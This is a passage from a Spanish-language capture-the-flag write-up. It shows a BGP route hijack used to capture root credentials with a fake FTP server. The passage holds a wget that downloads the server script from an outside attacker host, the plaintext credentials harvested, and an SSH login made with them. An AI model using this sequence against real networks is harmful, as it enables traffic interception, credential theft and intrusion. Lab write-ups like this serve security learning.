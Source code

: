 ```text
*                   10.78.10.2                             0 200 300 i
*> 10.120.19.0/24   10.78.11.2               0             0 300 i
*                   10.78.10.2                             0 200 300 i
*> 10.120.20.0/24   10.78.11.2               0             0 300 i
*                   10.78.10.2                             0 200 300 i

Total number of prefixes 28
as100# exit
 -O /dev/shm/ftp_server.py http://10.10.13.170:4001/ftp_server.pytils.py && wget
root@as100:/dev/shm# cd /dev/shm/ && python3 ftp_server.py
2019-03-06 04-48-17 [-] Start ftp server: Enter q or Q to stop ftpServer...
2019-03-06 04-48-17 [-] Server started: Listen on: 10.120.15.10, 21
```

Excelente, ya tenemos el listener y el anuncio sobre BGP, esperemos a ver si engañamos a alguien:

```text
2019-03-06 04-48-17 [-] Start ftp server: Enter q or Q to stop ftpServer...
2019-03-06 04-48-17 [-] Server started: Listen on: 10.120.15.10, 21
2019-03-06 04-49-01 [-] Accept: Created a new connection 10.78.10.2, 35248
2019-03-06 04-49-01 [-] Received data: USER root
2019-03-06 04-49-01 [-] USER: root
2019-03-06 04-49-01 [-] Received data: PASS BGPtelc0rout1ng
2019-03-06 04-49-01 [-] PASS: BGPtelc0rout1ng
2019-03-06 04-49-01 [-] Received data: SYST
2019-03-06 04-49-01 [-] SYS: None
2019-03-06 04-49-01 [-] Received data: PASV
2019-03-06 04-49-01 [-] PASV: None
2019-03-06 04-49-01 [-] Received data: STOR secretdata.txt
2019-03-06 04-49-01 [-] STOR: /root/secretdata.txt
2019-03-06 04-49-01 [-] Receive: 'FtpServerProtocol' object has no attribute 'mode'
2019-03-06 04-49-01 [-] Received data: QUIT
2019-03-06 04-49-01 [-] QUIT: None
2019-03-06 04-49-01 [-] Received data:
```

Holy Guacamoly, una maquina del AS 100 se trato de conectar! De esas que estamos redistribuyendo.

Con eso logramos obtener las credenciales de root.

> creds: root / BGPtelc0rout1ng

Ahora, ¿cómo usamos esas credenciales? Fácil por ssh hacia el host intervenido (spoiler, borre la interface y ejecute restore.sh):

```text
root@as100:~# export SHELL=bash && export TERM=xterm-256color
root@as100:~# ssh root@10.120.15.10
ssh root@10.120.15.10
root@10.120.15.10's password: BGPtelc0rout1ng

Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-24-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar  6 04:54:35 UTC 2019

  System load:  0.12               Users logged in:       0
  Usage of /:   40.8% of 19.56GB   IP address for ens33:  10.10.10.105
  Memory usage: 58%                IP address for lxdbr0: 10.99.64.1
  Swap usage:   2%                 IP address for lxdbr1: 10.120.15.10
  Processes:    391


 * Canonical Livepatch is available for installation.
```